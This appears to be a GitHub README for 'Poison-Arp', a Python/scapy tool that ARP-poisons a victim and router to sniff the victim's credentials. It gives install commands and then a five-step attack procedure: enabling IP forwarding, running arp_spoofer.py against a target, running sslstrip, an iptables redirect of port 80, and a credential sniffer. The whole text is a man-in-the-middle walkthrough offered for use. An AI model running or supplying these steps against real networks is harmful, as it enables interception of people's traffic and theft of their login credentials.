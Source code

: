 # Poison-Arp

This is tool can poison the Arp tables of the victim as well as router and sniff all the credentials of the victim.It works with both HTTP and HTTPS but not with HSTS.

Here I am using a going to import scapy module which is not inbuit for python3 so you have to install it manually by the following command:-

$ pip3 install scapy-python3

or 

$ apt-get install scapy-python3

or
    
    $ git clone https://github.com/phaethon/scapy
    $ cd scapy
    $ sudo python3 setup.py install
    
    
Step 1:- Allow traffic to pass through the Hacker machine with the below command 

$ echo 1 > /proc/sys/net/ipv4/ip_forward

![](/images/traffic_bypass.png)


Step 2:- Now run the arp-spoofer  with the below command 

$ python3 arp_spoofer.py --gateway  ap_ip --target victim_ip

![](/images/spoof.png)

Step 3: Run the sslstrip with the below command

$ sslstrip

![](/images/ssltrip.png)

Step 4: forward all the traffic to sslstrip port using iptables with the following command 

$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT  --to-port 10000 

![](/images/iptables.png)


Step 5: Run the sniffer with the following command

$ python3 sniffer.py -i interface

![](/images/login_new.png)








